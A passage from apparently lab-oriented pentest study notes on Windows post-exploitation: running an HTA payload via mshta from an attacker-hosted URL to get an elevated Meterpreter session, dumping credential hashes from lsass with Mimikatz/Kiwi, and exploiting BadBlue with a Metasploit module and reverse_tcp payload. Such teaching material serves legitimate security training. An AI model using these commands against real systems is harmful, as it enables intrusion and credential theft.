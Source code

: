 ```
mshta.exe http://10.10.31.2:8080/Bn75U0NL8ONS.hta
```

Since the command prompt was launched with administrator privileges, any subsequent process like the  `mshta.exe` process running the hta payload will inherit the same elevated privileges. So the resulting Meterpreter session will have administrator-level access. 

**Helpful Meterpreter Windows OS Tips**
- Get to root directory -> `cd /`
- Navigate to a directory -> `C:\\Users\\Administrator\\Desktop`
- List contents of a directory -> `dir`
- Open contents of a file -> `cat <file_name>`

---

## Dumping Hashes with Mimikatz/Kiwi


Mimikatz is a Windows post-exploitation tool written by Benjamin Delpy (@gentilkiwi) that allows for the extraction of clear-text passwords, hashes and Kerberos tickets from memory through lsass.exe. The lsass process is involved with authenticating users and part of the process involves interacting with the SAM database. The SAM (Security Account Manager) database, is a database file on Windows systems that stores hashed user passwords. Lsass will cache credentials retrieved from the SAM database and Mimikatz will extract hashes from the lsass.exe process memory.

We can utilize the pre-compiled mimikatz executable, alternatively, if we have access to a meterpreter session on a Windows target, we can utilize the inbuilt meterpreter extension Kiwi. In Metasploit, `kiwi` is an extension of Meterpreter that is essentially a Metasploit implementation of Mimikatz.

Mimikatz will require elevated privileges in order to run correctly since the Lsass process runs under privilege SYSTEM account.

#### Exploitation Process

We'll exploit the server, then dump the hashes with mimikatz/kiwi and then either collect the hashes to be cracked laster or use the hash to perform a pass-the-hash attack by authenticating legitimately  to a service.

#### Gaining Initial Access on Target

Run an initial Nmap scan and try to exploit any service. We'll use the meterpreter session to view the initial privileges and upload the payload/akagi executables to the target.

1. **Start postgresql and  metasploit**
```
service postgresql start && msfconsole
```
 2. **Run an exploit to get a meterpreter session on the target**: This is an example exploiting BadBlue which is a lightweight web server software originally created for file sharing and web hosting on Windows systems. Although it was once popular for these purposes, BadBlue is now considered outdated, and its security flaws have made it a target for exploitation. One of the most serious vulnerabilities in older versions of BadBlue is a buffer overflow exploit that enables remote code execution.  The Metasploit module `exploit/windows/http/badblue_passthru` targets a vulnerability in older versions of BadBlue (2.7 and earlier), exploiting a flaw in the `Passthru.dll` component which handles user input and passes it to system commands. By sending malicious HTTP requests, we can execute arbitrary commands and gain remote shell access with the same privileges as the web server, without needing valid credentials. For the exploitation module,  you would just configure the  `RHOSTS` (The target IP). You can update the meterpreter payload (optional) should get a `windows/meterpreter/reverse_tcp` payload by default.
```
use exploit/windows/http/badblue_passthru
set RHOSTS 10.61.25.84
exploit
```
